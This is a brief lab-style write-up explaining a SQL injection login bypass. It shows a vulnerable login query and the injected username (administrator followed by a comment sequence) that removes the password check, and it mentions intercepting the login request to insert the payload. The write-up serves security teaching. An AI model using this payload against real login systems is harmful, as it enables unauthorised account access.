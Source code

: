 The application performs the following SQL query on login:
`SELECT * FROM users WHERE username = 'administrator' AND password = ''`

If the result is a row, then the user has authenticated properly.

We can try to perform the following query:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

So the second validation `(AND password = whatever)` does not exist.
Intercepting the login (the place where the parameters are sent to the server so we modify the SQL query):
![](imgs/sqli_login_bypass-1.png)
And then the query is modified:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

![](imgs/sqli_login_bypass.png)
